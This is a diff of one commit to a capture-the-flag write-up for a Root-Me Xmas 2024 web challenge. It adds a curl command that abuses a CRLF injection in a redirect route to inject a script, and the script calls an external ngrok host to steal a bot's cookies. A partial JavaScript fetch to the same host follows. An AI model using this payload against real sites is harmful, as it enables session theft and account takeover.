

Before and after one commit to Ax8457/WriteUPs, a Markdown page: Xmas_RootMe_2024/CutsomHttpServer/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

`````diff
--- a/Xmas_RootMe_2024/CutsomHttpServer/README.md
+++ b/Xmas_RootMe_2024/CutsomHttpServer/README.md
@@ -53,9 +53,9 @@ router.get('/api/redirect', (req, res) => {
 <p align="justify">In this route, the user input was used to set the Location header for redirecting properly. Because of the lack of filters/CSP on the user input, it was possible possible to injecte the parameter to send the bot onto an external website. That's what I tried; I deployed a server and made the bot fetching it. It came useless because cookie's bot was defined on 127.0.0.1 meaning the bot was fetching my server with document.cookie variable empty. After a few read, I came up with the idea of using \n\r chars to overwritte redirect page. On burp browser (chrome based) the exploit worked well and I was able to steel my own cookies with the following payload : </p>
 
 ````bash
-
+curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=%0D%0AContent-Type%3A%20text%2Fhtml%20%0A%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
 ````
-
+Actually, tje \r\n chars triggered a 302 page meaning ça the page had benn found
 ````javascript
 fetch('http://7.tcp.eu.ngrok.io:18440/',
         {
`````
